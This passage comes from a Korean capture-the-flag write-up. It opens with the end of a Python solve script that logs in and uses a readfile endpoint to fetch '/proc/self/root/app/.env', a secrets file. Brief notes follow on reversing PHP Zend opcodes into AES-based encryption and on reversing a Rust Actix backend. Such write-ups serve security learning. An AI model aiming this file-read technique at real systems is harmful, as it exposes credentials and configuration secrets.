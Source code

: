 ```py
    payload = {"username": username, "password": password}
    #payload = f"username={username}&password={password}"
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    # Create a session object for session sharing across requests
    session = requests.Session()
    response = session.post(url, data=payload, headers=headers)
    print(session.headers)
    
    if response.status_code == 200:
        print(f"Logged in as {username}.")
        print(response.text)
        return session
    else:
        print("Login failed:", response.text)
        return None


def readfile(session, file):
    url = f"{BASE_URL}/readfile"
    payload = {"file": file}
    response = session.get(url, params=payload)
    print(response.text)

# Main script execution using session sharing
if __name__ == "__main__":
    # Login and get the session
    session = login_user(USERNAME, PASSWORD)

    if session:
        # Read the file
        readfile(session, "/proc/self/root/app/.env")
```

## 5. Web - Beta Test

접속하면 VLD로 덤프한 PHP Zend Opcode를 볼 수 있다. 이를 리버싱 하면 AES와 비트 쉬프트, mod 연산, rot13이 섞여있는 암호화 로직이라는 것을 알 수 있다.

실제로 Zend Opcode 상에 CBC Mode에서 사용하는 암호문, IV, Key가 모두 적혀있기 때문에 플레이어가 원본 코드를 복구하기만 하면, flag를 연산할 수 있다.


## 6. Web - Rails on Rust
Actix framework를 활용한 web backend 바이너리 리버싱 문제입니다.

Frontend (SvelteKit) <-> Backend (Rust) <-> Redis의 구조로 돌아가는 서비스로,  Rust 바이너리를 분석하면 다음과 같은 endpoint들을 찾을 수 있습니다.

**구조**

- / : Health Check

Backend Health Check
